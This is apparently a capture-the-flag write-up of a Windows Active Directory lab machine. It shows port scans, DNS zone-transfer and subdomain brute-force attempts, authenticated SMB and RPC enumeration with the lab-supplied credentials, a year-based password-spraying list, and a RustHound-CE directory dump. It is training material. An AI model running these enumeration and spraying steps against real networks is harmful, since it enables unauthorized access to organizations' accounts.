# Intro

The challenge is about a Windows based server rated as "Medium" difficulty.



The challenge also provides an initial user as foothold to the server:

levi.james: KingofAkron2025!

# Initial Enumeration

As usual I will use Rustscan to check all the alive hosts over the (65k ish) and we can see most of the default services over a domain controller, but no web so far...

```bash
└─# rustscan -a 10.10.11.70 -- -A -T4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where scanning meets swagging. 😎

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.70:53
Open 10.10.11.70:88
Open 10.10.11.70:111
Open 10.10.11.70:139
Open 10.10.11.70:135
Open 10.10.11.70:389
Open 10.10.11.70:445
Open 10.10.11.70:464
Open 10.10.11.70:593
Open 10.10.11.70:636
Open 10.10.11.70:2049
Open 10.10.11.70:5985
Open 10.10.11.70:9389
Open 10.10.11.70:49561
Open 10.10.11.70:49570
Open 10.10.11.70:49585
Open 10.10.11.70:49664
Open 10.10.11.70:49667
Open 10.10.11.70:49669
Open 10.10.11.70:49670
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -A -T4" on ip 10.10.11.70
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 16:14 CEST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:14
Completed NSE at 16:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:14
Completed NSE at 16:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:14
Completed NSE at 16:14, 0.00s elapsed
Initiating Ping Scan at 16:14
Scanning 10.10.11.70 [4 ports]
Completed Ping Scan at 16:14, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:14
Scanning puppy.htb (10.10.11.70) [20 ports]
Discovered open port 445/tcp on 10.10.11.70
Discovered open port 49585/tcp on 10.10.11.70
Discovered open port 49667/tcp on 10.10.11.70
Discovered open port 49570/tcp on 10.10.11.70
Discovered open port 636/tcp on 10.10.11.70
Discovered open port 111/tcp on 10.10.11.70
Discovered open port 88/tcp on 10.10.11.70
Discovered open port 139/tcp on 10.10.11.70
Discovered open port 135/tcp on 10.10.11.70
Discovered open port 53/tcp on 10.10.11.70
Discovered open port 464/tcp on 10.10.11.70
Discovered open port 49669/tcp on 10.10.11.70
Discovered open port 49670/tcp on 10.10.11.70
Discovered open port 2049/tcp on 10.10.11.70
Discovered open port 5985/tcp on 10.10.11.70
Discovered open port 593/tcp on 10.10.11.70
Discovered open port 49561/tcp on 10.10.11.70
Discovered open port 389/tcp on 10.10.11.70
Discovered open port 9389/tcp on 10.10.11.70
Discovered open port 49664/tcp on 10.10.11.70
Completed SYN Stealth Scan at 16:14, 0.08s elapsed (20 total ports)
Initiating Service scan at 16:14
Scanning 20 services on puppy.htb (10.10.11.70)
Completed Service scan at 16:15, 54.05s elapsed (20 services on 1 host)
Initiating OS detection (try #1) against puppy.htb (10.10.11.70)
Retrying OS detection (try #2) against puppy.htb (10.10.11.70)
Initiating Traceroute at 16:15
Completed Traceroute at 16:15, 0.04s elapsed
Initiating Parallel DNS resolution of 1 host. at 16:15
Completed Parallel DNS resolution of 1 host. at 16:15, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
NSE: Script scanning 10.10.11.70.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:15
NSE Timing: About 99.96% done; ETC: 16:15 (0:00:00 remaining)
Completed NSE at 16:15, 40.21s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:15
Completed NSE at 16:16, 16.28s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:16
Completed NSE at 16:16, 0.00s elapsed
Nmap scan report for puppy.htb (10.10.11.70)
Host is up, received echo-reply ttl 127 (0.026s latency).
Scanned at 2025-05-18 16:14:14 CEST for 115s

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-18 21:14:21Z)
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49561/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49570/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49585/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=5/18%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6829EBA9%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=107%TI=I%II=I%SS=S%TS=A)
SEQ(SP=102%GCD=1%ISR=108%TI=I%II=I%SS=S%TS=A)
OPS(O1=M550NW8ST11%O2=M550NW8ST11%O3=M550NW8NNT11%O4=M550NW8ST11%O5=M550NW8ST11%O6=M550ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M550NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

```

I will check also UDP services just in case, some interesting services like SNMP but nothing out of ordinary so far? Well the NFS it is out of ordinary.

```bash
└─# nmap -F -sU puppy.htb                     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 16:27 CEST
Nmap scan report for puppy.htb (10.10.11.70)
Host is up (0.044s latency).
Not shown: 95 open|filtered udp ports (no-response)
PORT     STATE SERVICE
53/udp   open  domain
88/udp   open  kerberos-sec
111/udp  open  rpcbind
123/udp  open  ntp
2049/udp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 2.68 seconds

```

I will move on with specifical footprinting and attacks...

# DNS

I will check if DNS zone transfer is active, this might help to identify possible hidden DNS records. But seems that the zone is not active, I might have well guessed it...

```bash
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Puppy]
└─# dig any puppy.htb @10.10.11.70            

; <<>> DiG 9.20.8-6-Debian <<>> any puppy.htb @10.10.11.70
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 37574
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;puppy.htb.			IN	ANY

;; ANSWER SECTION:
puppy.htb.		600	IN	A	10.10.11.70
puppy.htb.		3600	IN	NS	dc.puppy.htb.
puppy.htb.		3600	IN	SOA	dc.puppy.htb. hostmaster.puppy.htb. 174 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.puppy.htb.		3600	IN	A	10.10.11.70

;; Query time: 28 msec
;; SERVER: 10.10.11.70#53(10.10.11.70) (TCP)
;; WHEN: Sun May 18 16:31:44 CEST 2025
;; MSG SIZE  rcvd: 134

                                                                                                                                                                                                                                              
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Puppy]
└─# dig axfr puppy.htb @10.10.11.70

; <<>> DiG 9.20.8-6-Debian <<>> axfr puppy.htb @10.10.11.70
;; global options: +cmd
; Transfer failed.

```

Before wrapping up, again this might be totally pointless but I will try to perform a quick brute-forcing and checking for possible hidden subdomains.

```
└─# dig any puppy.htb @10.10.11.70            

; <<>> DiG 9.20.8-6-Debian <<>> any puppy.htb @10.10.11.70
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 37574
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;puppy.htb.			IN	ANY

;; ANSWER SECTION:
puppy.htb.		600	IN	A	10.10.11.70
puppy.htb.		3600	IN	NS	dc.puppy.htb.
puppy.htb.		3600	IN	SOA	dc.puppy.htb. hostmaster.puppy.htb. 174 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.puppy.htb.		3600	IN	A	10.10.11.70

;; Query time: 28 msec
;; SERVER: 10.10.11.70#53(10.10.11.70) (TCP)
;; WHEN: Sun May 18 16:31:44 CEST 2025
;; MSG SIZE  rcvd: 134

                                                                                                                                                                                                                                              
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Puppy]
└─# dig axfr puppy.htb @10.10.11.70

; <<>> DiG 9.20.8-6-Debian <<>> axfr puppy.htb @10.10.11.70
;; global options: +cmd
; Transfer failed.
                                                                                                                                                                                                                                              
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Puppy]
└─# dnsenum --dnsserver 10.10.11.70 --enum -p 0 -s 0 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt puppy.htb
dnsenum VERSION:1.3.1

-----   puppy.htb   -----


Host's addresses:
__________________

puppy.htb.                               600      IN    A        10.10.11.70


Name Servers:
______________

dc.puppy.htb.                            3600     IN    A        10.10.11.70


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc.puppy.htb at /usr/bin/dnsenum line 892 thread 1.

Trying Zone Transfer for puppy.htb on dc.puppy.htb ... 
AXFR record query failed: no nameservers


Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:
_______________________________________________________________________________________

dc.puppy.htb.                            3600     IN    A        10.10.11.70
gc._msdcs.puppy.htb.                     600      IN    A        10.10.11.70
domaindnszones.puppy.htb.                600      IN    A        10.10.11.70
forestdnszones.puppy.htb.                600      IN    A        10.10.11.70


Launching Whois Queries:
_________________________


puppy.htb_________


Performing reverse lookup on 0 ip addresses:
_____________________________________________


0 results out of 0 IP addresses.


puppy.htb ip blocks:
_____________________


done.
                    
```

I feel confident to move on to DNS service.

# DNS

I will use the initial credentials to perform a full DNS scan via the tool "Enum4linux-ng" that will footprint the OS version, users and Samba shares on the server.

```bash
└─# enum4linux-ng -A puppy.htb -u 'levi.james' -p 'KingofAkron2025!'
ENUM4LINUX - next generation (v1.3.4)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... puppy.htb
[*] Username ......... 'levi.james'
[*] Random Username .. 'outjwmex'
[*] Password ......... 'KingofAkron2025!'
[*] Timeout .......... 5 second(s)

 ==================================
|    Listener Scan on puppy.htb    |
 ==================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =================================================
|    Domain Information via LDAP for puppy.htb    |
 =================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: PUPPY.HTB

 ========================================================
|    NetBIOS Names and Workgroup/Domain for puppy.htb    |
 ========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ======================================
|    SMB Dialect Check on puppy.htb    |
 ======================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ========================================================
|    Domain Information via SMB session for puppy.htb    |
 ========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC
NetBIOS domain name: PUPPY
DNS domain: PUPPY.HTB
FQDN: DC.PUPPY.HTB
Derived membership: domain member
Derived domain: PUPPY

 ======================================
|    RPC Session Check on puppy.htb    |
 ======================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for user session
[+] Server allows session using username 'levi.james', password 'KingofAkron2025!'
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ================================================
|    Domain Information via RPC for puppy.htb    |
 ================================================
[+] Domain: PUPPY
[+] Domain SID: S-1-5-21-1487982659-1829050783-2281216199
[+] Membership: domain member

 ============================================
|    OS Information via RPC for puppy.htb    |
 ============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: ''
OS build: '20348'
Native OS: not supported
Native LAN manager: not supported
Platform id: '500'
Server type: '0x80102b'
Server type string: Wk Sv PDC Tim NT

 ==================================
|    Users via RPC on puppy.htb    |
 ==================================
[*] Enumerating users via 'querydispinfo'
[+] Found 9 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 9 user(s) via 'enumdomusers'
[+] After merging user results we have 9 user(s) total:
'1103':
  username: levi.james
  name: Levi B. James
  acb: '0x00000210'
  description: (null)
'1104':
  username: ant.edwards
  name: Anthony J. Edwards
  acb: '0x00000210'
  description: (null)
'1105':
  username: adam.silver
  name: Adam D. Silver
  acb: '0x00000011'
  description: (null)
'1106':
  username: jamie.williams
  name: Jamie S. Williams
  acb: '0x00000210'
  description: (null)
'1107':
  username: steph.cooper
  name: Stephen W. Cooper
  acb: '0x00000210'
  description: (null)
'1111':
  username: steph.cooper_adm
  name: Stephen A. Cooper
  acb: '0x00000210'
  description: (null)
'500':
  username: Administrator
  name: (null)
  acb: '0x00004210'
  description: Built-in account for administering the computer/domain
'501':
  username: Guest
  name: (null)
  acb: '0x00000215'
  description: Built-in account for guest access to the computer/domain
'502':
  username: krbtgt
  name: (null)
  acb: '0x00020011'
  description: Key Distribution Center Service Account

 ===================================
|    Groups via RPC on puppy.htb    |
 ===================================
[*] Enumerating local groups
[+] Found 6 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 28 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 18 group(s) via 'enumdomgroups'
[+] After merging groups results we have 52 group(s) total:
'1101':
  groupname: DnsAdmins
  type: local
'1102':
  groupname: DnsUpdateProxy
  type: domain
'1108':
  groupname: HR
  type: domain
'1109':
  groupname: SENIOR DEVS
  type: domain
'1112':
  groupname: Access-Denied Assistance Users
  type: local
'1113':
  groupname: DEVELOPERS
  type: domain
'498':
  groupname: Enterprise Read-only Domain Controllers
  type: domain
'512':
  groupname: Domain Admins
  type: domain
'513':
  groupname: Domain Users
  type: domain
'514':
  groupname: Domain Guests
  type: domain
'515':
  groupname: Domain Computers
  type: domain
'516':
  groupname: Domain Controllers
  type: domain
'517':
  groupname: Cert Publishers
  type: local
'518':
  groupname: Schema Admins
  type: domain
'519':
  groupname: Enterprise Admins
  type: domain
'520':
  groupname: Group Policy Creator Owners
  type: domain
'521':
  groupname: Read-only Domain Controllers
  type: domain
'522':
  groupname: Cloneable Domain Controllers
  type: domain
'525':
  groupname: Protected Users
  type: domain
'526':
  groupname: Key Admins
  type: domain
'527':
  groupname: Enterprise Key Admins
  type: domain
'544':
  groupname: Administrators
  type: builtin
'545':
  groupname: Users
  type: builtin
'546':
  groupname: Guests
  type: builtin
'548':
  groupname: Account Operators
  type: builtin
'549':
  groupname: Server Operators
  type: builtin
'550':
  groupname: Print Operators
  type: builtin
'551':
  groupname: Backup Operators
  type: builtin
'552':
  groupname: Replicator
  type: builtin
'553':
  groupname: RAS and IAS Servers
  type: local
'554':
  groupname: Pre-Windows 2000 Compatible Access
  type: builtin
'555':
  groupname: Remote Desktop Users
  type: builtin
'556':
  groupname: Network Configuration Operators
  type: builtin
'557':
  groupname: Incoming Forest Trust Builders
  type: builtin
'558':
  groupname: Performance Monitor Users
  type: builtin
'559':
  groupname: Performance Log Users
  type: builtin
'560':
  groupname: Windows Authorization Access Group
  type: builtin
'561':
  groupname: Terminal Server License Servers
  type: builtin
'562':
  groupname: Distributed COM Users
  type: builtin
'568':
  groupname: IIS_IUSRS
  type: builtin
'569':
  groupname: Cryptographic Operators
  type: builtin
'571':
  groupname: Allowed RODC Password Replication Group
  type: local
'572':
  groupname: Denied RODC Password Replication Group
  type: local
'573':
  groupname: Event Log Readers
  type: builtin
'574':
  groupname: Certificate Service DCOM Access
  type: builtin
'575':
  groupname: RDS Remote Access Servers
  type: builtin
'576':
  groupname: RDS Endpoint Servers
  type: builtin
'577':
  groupname: RDS Management Servers
  type: builtin
'578':
  groupname: Hyper-V Administrators
  type: builtin
'579':
  groupname: Access Control Assistance Operators
  type: builtin
'580':
  groupname: Remote Management Users
  type: builtin
'582':
  groupname: Storage Replica Administrators
  type: builtin

 ===================================
|    Shares via RPC on puppy.htb    |
 ===================================
[*] Enumerating shares
[+] Found 6 share(s):
ADMIN$:
  comment: Remote Admin
  type: Disk
C$:
  comment: Default share
  type: Disk
DEV:
  comment: DEV-SHARE for PUPPY-DEVS
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
SYSVOL:
  comment: Logon server share
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share DEV
[+] Mapping: OK, Listing: DENIED
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[-] Could not parse result of smbclient command, please open a GitHub issue
[*] Testing share SYSVOL
[-] Could not parse result of smbclient command, please open a GitHub issue

 ======================================
|    Policies via RPC for puppy.htb    |
 ======================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:
  Password history length: 24
  Minimum password length: 7
  Maximum password age: 41 days 23 hours 53 minutes
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: true
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: not set

 ======================================
|    Printers via RPC for puppy.htb    |
 ======================================
[+] No printers available

Completed after 13.36 seconds

```

From here can we identify that:

- No lockout policy is being used, which allows us to freely password spray without worring to lock any domain user.
- Our user has access to a custom DEV samba share that is worth checking.
- The OS is well updated.
- We can obtain a list of the domain user  easily.

&nbsp;

Before moving out to NFS I want to see if thar DEV share contains anything juicy?

```
└─# impacket-smbclient puppy.htb/levi.james:'KingofAkron2025!'@puppy.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
DEV
IPC$
NETLOGON
SYSVOL
# use DEV
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# ls
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

```

What a bummer! It allows us to map it, but not to list its content; I guess our user is not part of the Devs domain group so we might need to come back to this later on.

# NFS

Now we know that NFS was active as well over UDP port 2049, let's see if our user can do something about it?


Ok the server hangs, let's see if NMAP can do something about?



The port is open but we can't do anything with it? Or at least we are not able to enumerate it?



Seems like nothing is there, I do wonder if I need to ship the credentials as welll while checking for possible exports? 


Ok I guess we need to take another approach, I will move on to AD.

# Enumerating the AD

It is clear that we need to find other credentials, so having the list over the domain users I will try to spray with the same credentials that I have right now, but all the users have other credentials.



I will try to create an easy password list based on our initial password, but iterating thru different years.

```txt
KingofAkron2010!
KingofAkron2011!
KingofAkron2012!
KingofAkron2013!
KingofAkron2014!
KingofAkron2015!
KingofAkron2016!
KingofAkron2017!
KingofAkron2018!
KingofAkron2019!
KingofAkron2020!
KingofAkron2021!
KingofAkron2022!
KingofAkron2023!
KingofAkron2024!
KingofAkron2025!
KingofAkron2026!
KingofAkron2027!
KingofAkron2028!
KingofAkron2029!
KingofAkron2030!

```



All of them failed, tried even some common password like "Welcome1 / Welcome1!" but it still failed, I feel confident to dump the AD via Rusthound and map it in Bloodhound CE.

```bash
└─# rusthound-ce --domain puppy.htb -u 'levi.james' -p 'KingofAkron2025!'
---------------------------------------------------
Initializing RustHound-CE at 17:03:20 on 05/18/25
Powered by @g0h4n_0
Special thanks to NH-RED-TEAM
---------------------------------------------------

[2025-05-18T15:03:20Z INFO  rusthound_ce] Verbosity level: Info
[2025-05-18T15:03:20Z INFO  rusthound_ce] Collection method: All
[2025-05-18T15:03:20Z INFO  rusthound_ce::ldap] Connected to PUPPY.HTB Active Directory!
[2025-05-18T15:03:20Z INFO  rusthound_ce::ldap] Starting data collection...
[2025-05-18T15:03:20Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-18T15:03:20Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=PUPPY,DC=HTB
[2025-05-18T15:03:20Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-18T15:03:21Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Configuration,DC=PUPPY,DC=HTB
[2025-05-18T15:03:21Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-18T15:03:22Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
[2025-05-18T15:03:22Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-18T15:03:22Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=DomainDnsZones,DC=PUPPY,DC=HTB
[2025-05-18T15:03:22Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-18T15:03:22Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=ForestDnsZones,DC=PUPPY,DC=HTB
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::parser] Starting the LDAP objects parsing...
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::parser] Parsing LDAP objects finished!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 10 users parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_users.json created!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 64 groups parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_groups.json created!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_computers.json created!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 3 ous parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_ous.json created!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 3 domains parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_domains.json created!
